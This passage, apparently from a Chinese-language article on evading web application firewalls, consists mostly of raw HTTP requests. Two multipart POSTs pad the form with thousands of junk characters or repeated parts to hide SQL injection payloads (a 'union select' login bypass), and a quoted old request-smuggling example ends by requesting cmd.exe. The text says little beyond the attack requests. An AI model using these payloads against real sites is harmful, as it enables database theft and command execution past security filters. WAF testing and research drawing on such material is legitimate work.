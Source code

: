 ```
POST /test/test.php HTTP/1.1
Host: 192.168.17.138
Connection: close
Content-Type: multipart/form-data; boundary=--------2117353554
Content-Length: 6167

----------2117353554
Content-Disposition: form-data; name="test"

x*5978 (5978个x)
----------2117353554
Content-Disposition: form-data; name="user"

root' union select 1 --
----------2117353554--
```

或者下面这种方式：

```
POST /test.php HTTP/1.1
Connection: close
Content-Type: multipart/form-data; boundary=123
Content-Length: 7497

(--123
Content-Disposition:form-data; name="aaa";

123)*165 重复165次以上
Content-Disposition:form-data; name="aaa";

union select 123
--123--
```

还有很多种方法，比如前面放一个很大的文件，后面再跟Payload表单，是不是也可能可以。 另外笔者看到一个有趣的旧漏洞，算是扩展一下思维。

```
1 POST /page.asp HTTP/1.1
2 Host: chaim
3 Connection: Keep-Alive
4 Content-Length: 49223
5 [CRLF]
6 zzz...zzz ["z" x 49152]
7 POST /page.asp HTTP/1.0
8 Connection: Keep-Alive
9 Content-Length: 30
10 [CRLF]
11 POST /page.asp HTTP/1.0
12 Bla: [space after the "Bla:", but no CRLF]
13 POST /page.asp?cmd.exe HTTP/1.0
14 Connection: Keep-Alive
15 [CRLF]
```
